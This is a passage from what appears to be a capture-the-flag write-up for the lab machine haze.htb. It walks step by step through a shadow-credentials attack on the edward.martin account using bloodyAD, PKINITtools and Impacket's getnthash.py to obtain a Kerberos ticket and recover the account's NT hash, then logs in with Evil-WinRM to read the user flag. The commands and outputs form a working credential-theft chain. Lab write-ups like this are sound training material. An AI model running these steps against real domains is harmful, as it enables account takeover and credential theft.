 Now, I will try the shadow credential. You can do it automatically using `certipy` or manually using `bloodyAD` or `pywhisker`. I will use `bloodyAD` here.

```bash
> bloodyAD -d haze.htb -k --host dc01.haze.htb add shadowCredentials edward.martin
[+] KeyCredential generated with following sha256 of RSA key: 424edb5db0b82a1239760368cdefa57d5f51f8823988713923d5ab9225cdab7d
No outfile path was provided. The certificate(s) will be stored with the filename: bgd9GFM4
[+] Saved PEM certificate at path: bgd9GFM4_cert.pem
[+] Saved PEM private key at path: bgd9GFM4_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem bgd9GFM4_cert.pem -key-pem bgd9GFM4_priv.pem haze.htb/edward.martin bgd9GFM4.ccache
```

```bash
> gettgtpkinit.py -cert-pem bgd9GFM4_cert.pem -key-pem bgd9GFM4_priv.pem haze.htb/edward.martin bgd9GFM4.ccache
2025-04-01 06:53:06,399 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-01 06:53:06,415 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-01 06:53:06,491 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-01 06:53:06,491 minikerberos INFO     472148b54cf64a9a676793ab6f8a679efb492c0e8eba7c0473ee9ca8a2f7d575
INFO:minikerberos:472148b54cf64a9a676793ab6f8a679efb492c0e8eba7c0473ee9ca8a2f7d575
2025-04-01 06:53:06,495 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

```bash
> export KRB5CCNAME=$(realpath bgd9GFM4.ccache)
> getnthash.py 'haze.htb/edward.martin' -key 472148b54cf64a9a676793ab6f8a679efb492c0e8eba7c0473ee9ca8a2f7d575
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
<nt_hash>
```

# Auth as edward.martin

## User Flag

```powershell
*Evil-WinRM* PS C:\Users\edward.martin\Desktop> cat user.txt
deadbeef3e687064cf1dec475e49fake
```

